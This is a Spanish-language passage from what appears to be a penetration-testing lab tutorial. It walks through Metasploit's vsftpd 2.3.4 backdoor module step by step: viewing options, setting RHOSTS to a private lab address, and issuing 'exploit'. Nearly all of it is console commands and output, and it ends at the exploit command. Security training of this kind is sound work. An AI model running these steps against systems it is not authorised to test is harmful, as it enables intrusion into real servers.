 Para ver las opciones de configuración se utiliza el comando `show options`
```bash
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

La salida es la siguiente
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

Name Current Setting Required Description
---- --------------- -------- -----------
CHOST no The local client address
CPORT no The local client port
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metaspl
oit/basics/using-metasploit.html
RPORT 21 yes The target port (TCP)
 
Payload options (cmd/unix/interact):
  
Name Current Setting Required Description
---- --------------- -------- -----------

Exploit target:

Id Name
-- ----
0 Automatic

View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

Esta salida indica que se debe rellenar el RHOSTS objetivo

6. Set RHOSTS
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.0.200.5
rhosts => 10.0.200.5
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

Luego, para revisar que haya sido configurado correctamente, se ejecuta nuevamente `show options`
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

7. Ejecutar el comando `exploit`
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```
